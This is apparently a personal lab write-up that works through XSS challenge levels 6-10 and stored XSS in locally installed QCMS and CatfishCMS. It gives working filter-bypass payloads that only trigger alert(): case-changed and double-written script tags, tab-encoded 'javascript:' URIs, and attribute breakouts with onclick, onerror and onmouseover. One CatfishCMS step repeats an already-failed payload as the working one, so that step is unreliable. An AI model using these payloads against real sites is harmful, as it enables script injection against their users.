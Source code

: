 # 0x01 xss challenge level 6-10  

## 1.1 level 6
test with typical, notice the `script` has changed   
![image](https://user-images.githubusercontent.com/38830968/39572214-e736e6d0-4f00-11e8-9676-eada3969b13d.png)

change `script` to 'Script', and enclose double quote, bingo
`http://n00p.me/xss/level6.php?keyword="><sCript>alert(1)</script>  <"                     &submit`  
![image](https://user-images.githubusercontent.com/38830968/39571917-baa7340e-4eff-11e8-89f8-fd6e61df6ec3.png)

## 1.2 level 7
test with typical  
![image](https://user-images.githubusercontent.com/38830968/39572821-4b7ed89e-4f03-11e8-9f9f-fda06e1d84b0.png)  

after these not worked: `script` to 'Script'; 
finally, double write `script` to scr**script**ipt, and enclose double quote,   bingo:
`http://n00p.me/xss/level7.php?keyword="><scrscriptipt>alert(1)</scrscriptipt><"&submit`  
![image](https://user-images.githubusercontent.com/38830968/39572532-0bb6f314-4f02-11e8-93aa-5c129c671bb7.png)  



## 1.3 level 8
try1, test typical, find two exp-point
![image](https://user-images.githubusercontent.com/38830968/39572935-ba0de1f6-4f03-11e8-8e11-2280ce855e97.png)  

try2, enclose the quote
`http://n00p.me/xss/level6.php?keyword=<script>alert(1)</script>     &submit`  
as source code , guess `htmlspecialchars` was used
``` html
<input name=keyword  value="&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;&lt;&quot;     ">
```

try3, move target to next exp-point  
`http://n00p.me/xss/level8.php?keyword=javascript:alert(1)     &submit`  
`http://n00p.me/xss/level8.php?keyword=javaScript:alert(1)     &submit`  
`http://n00p.me/xss/level8.php?keyword=javas	cript:alert(1)     &submit`(blank is char-tab, if type this in address bar or hack bar, tab will be chopped. it's concluded by burp suite )  
each result:
``` html
<a href="javascr_ipt:alert(1)     ">友情链接</a>
<a href="javascr_ipt:alert(1)     ">友情链接</a>
<a href="javascr_ipt:alert(1)     ">友情链接</a>
```
try4, consider type tab in inputbox    ,bingo(intercept by burp, notice char-tab in input box was url-encoded, this differs from address bars, now we can use `%09` in address bar to achieve real tab like input-box )  
![image](https://user-images.githubusercontent.com/38830968/39573691-c7aa1fde-4f06-11e8-8a52-074d8a6f4658.png)



## 1.4 level 9
try1, use typical as previous, and find this:
``` html
<a href="您的链接不合法？有没有！">友情链接</a>
```
try2, try a valid-like link, works fine
`http://n00p.me/xss/level9.php?keyword=http://n00p.me&submit`  
``` html
<a href="http://n00p.me">友情链接</a>
```

try3, after a few test, `http://` is the core string that must include in payload, or it will throw try1, so we just include this string, as level 8, bingo
`http://n00p.me/xss/level9.php?keyword=javas%09cript:alert('http://')     &submit`  


## 1.5 level 10
try1, use typical, and found exp-like in burp's response:
``` html
<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2>
```

try2, from try1,  predefined characters(less than sign`<` and greater than sign`>`) has been converted to HTML entities(&lt;&gt;), does it means that we could do nothing about this? Focus the rest html code and notice these:
``` html
<form id=search>
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
</form>
```

try3, there is a form including 3 input tags in it. The form method is not defined but default to GET. It means that we can directly build url instead of change html element to detect form exp-points. Build url like this and check is there anything to exploit:
`http://n00p.me/xss/level10.php?keyword=aaa&t_link=bbb&t_history=ccc&t_sort=ddd`  

try4, dada! after we enter the payload above, we found exp-like in response html as below:
``` html
<form id="search">
<input name="t_link" value="" type="hidden">
<input name="t_history" value="" type="hidden">
<input name="t_sort" value="ddd" type="hidden">
</form>
```

try5, enclose the `t_sort` input, bingo:
`http://n00p.me/xss/level10.php?keyword=aaa&t_link=bbb&t_history=ccc&t_sort=d" onclick=alert(1) type="text`  
why the input use `text` type instead of `hidden` type? Explaination see [referer link](https://stackoverflow.com/questions/26341507/can-an-html-element-have-the-same-attribute-twice):
> What happens in practice is that the latter attribute is ignored

Notice that it is **reverse to css selector** .
But both duplicate attribute and duplicate css selector are **not recommended** in production enviroment!

# 0x02 qcms
2.1 switch php version to 5.2
2.2 bind the site root to 8080 port
2.3 type `http://n00p.me:8080` in adress bar, input db-config-info, install, after complete, find **留言** page:    
![image](https://user-images.githubusercontent.com/38830968/39587660-9f7e01a8-4f2c-11e8-8c99-928439ac3364.png)

2.4 try typical in textbox, bingo!  
![image](https://user-images.githubusercontent.com/38830968/39587729-ca9e24bc-4f2c-11e8-806b-87e5eb67ab43.png)


# 0x03 CatfishCMS 
3.1 switch php version to 5.5
3.2 open `http://n00p.me/catfish`, install, register an account, login and click one post, find "留言" as below:    
![image](https://user-images.githubusercontent.com/38830968/39588149-c347a160-4f2d-11e8-9979-335cdefa32f7.png)
3.3 use typical and submit, notice response that maybe used `htmlspecialchars()` in php code :
``` html
<p><p>&lt;script&gt;alert(1)&lt;/script&gt;</p></p>
``` 
3.4 pull out burp and detect exp-point, find this:
`pinglun=%3Cp%3E%26lt%3Bscript%26gt%3Balert(1)%26lt%3B%2Fscript%26gt%3B%3C%2Fp%3E`   
apparently, it has been url encoded, decode it:  
`pinglun=<p>&lt;script&gt;alert(1)&lt;/script&gt;</p>`  
the code has been converted before send to server, what about change it to its raw face like below?  
`pinglun=<p><script>alert(1)</script></p>`  
forwarded above, comment was succeed to post but nothing was leaved in comment content part. Guess server has filtered `script` string, use below payload instead, bingo:
`pinglun=<p><script>alert(1)</script></p>`  

3.5 alternative payloads
- `pinglun=<img src=x onerror=alert(1)>`
- `pinglun=<p onmouseover=alert(12121212)>aa</p>`


# 0x04 summary about cms sites depolyment
1. reading cms-followed doc is essential, it has valued info to deploy OK
1. if install-like.page report errors, try change php version
1. some cms restricts path to www dir, use phpstudy sites_domain_control option can handle this
1. to deploy a cms site is not difficult, just need some patient and it will work properly

